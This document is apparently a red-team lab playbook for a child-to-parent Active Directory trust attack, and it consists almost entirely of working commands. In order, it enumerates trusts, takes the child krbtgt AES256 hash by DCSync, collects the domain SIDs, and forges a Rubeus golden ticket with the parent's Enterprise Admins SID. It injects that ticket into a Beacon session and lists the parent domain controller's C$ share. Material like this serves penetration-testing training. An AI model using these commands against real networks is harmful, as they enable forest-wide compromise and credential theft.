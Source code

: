 # Child -> Parent Attack

1.  \
    Enumerate the type of trust in place.

    ```batch
    ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
    ```
2. Obtain the AES256 hash for the child domain's krbtgt account.
   1. `dcsync dublin.contoso.com DUBLIN\krbtgt`
3. Obtain the domain SID for _dublin.contoso.com_.
   1. `ldapsearch (objectClass=domain) --attributes objectSid`
4. Obtain the domain SID for _contoso.com_.
   1. `ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com`
5.  On the Attacker Desktop, forge a golden ticket and output to a file.

    ```batch
    C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[DUBLIN SID] /sids:[CONTOSO EA GROUP SID] /aes256:[DUBLIN KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden
    ```
6.  Inject the ticket into Beacon.

    ```batch
    kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]
    ```
7. Verify the ticket is in the session.
   1. `run klist`
8. Access the parent domain's domain controller.
   1. `ls \\lon-dc-1\c$`
